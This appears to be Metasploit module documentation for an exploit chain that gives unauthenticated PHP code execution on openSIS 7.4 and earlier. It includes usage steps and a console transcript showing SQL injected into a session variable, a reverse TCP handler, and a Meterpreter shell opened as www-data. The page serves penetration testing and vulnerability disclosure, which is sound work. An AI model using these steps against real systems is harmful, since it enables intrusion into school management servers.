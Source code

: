 ## Vulnerable Application

This module exploits multiple vulnerabilities in [openSIS](https://www.opensis.com/) 7.4 and prior versions which could be abused by unauthenticated attackers to execute arbitrary PHP code. It is based on these advisories:

- http://karmainsecurity.com/KIS-2020-06
- http://karmainsecurity.com/KIS-2020-07
- http://karmainsecurity.com/KIS-2020-08

The module has been successfully tested against [openSIS](https://www.opensis.com/) versions 7.3 and 7.4 running on Ubuntu. Older versions might be affected as well.

Download link: https://sourceforge.net/projects/opensis-ce/files/

## Verification Steps

  1. Install the web application
  2. Start msfconsole
  3. Do: ```use unix/webapp/opensis_chain_exec```
  4. Do: ```set RHOSTS [IP]```
  5. Do: ```set TARGETURI [/path/to/opensis]```
  6. Do: ```run```
  7. You should get a shell.

## Options

### TARGETURI

The base path to the web application (e.g. `/opensis/`). The default value is `/`.

## Scenarios

**openSIS 7.4 running on Ubuntu 18.04.4**

```
msf5 > use unix/webapp/opensis_chain_exec
msf5 exploit(unix/webapp/opensis_chain_exec) > set RHOSTS localhost
msf5 exploit(unix/webapp/opensis_chain_exec) > set TARGETURI /opensis/
msf5 exploit(unix/webapp/opensis_chain_exec) > check 

[*] Retrieving session cookie
[*] Injecting malicious SQL into session variable
[*] Calling ForExport.php to set $_SESSION['_REQUEST_vars']
[*] Executing PHP code by calling Bottom.php
[+] 127.0.0.1:80 - The target is vulnerable.

msf5 exploit(unix/webapp/opensis_chain_exec) > run

[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Retrieving session cookie
[*] Injecting malicious SQL into session variable
[*] Calling ForExport.php to set $_SESSION['_REQUEST_vars']
[*] Executing PHP code by calling Bottom.php
[*] Sending stage (38288 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:45460) at 2020-07-01 23:31:43 +0200

meterpreter > getuid 
Server username: www-data (33)
meterpreter > 
```
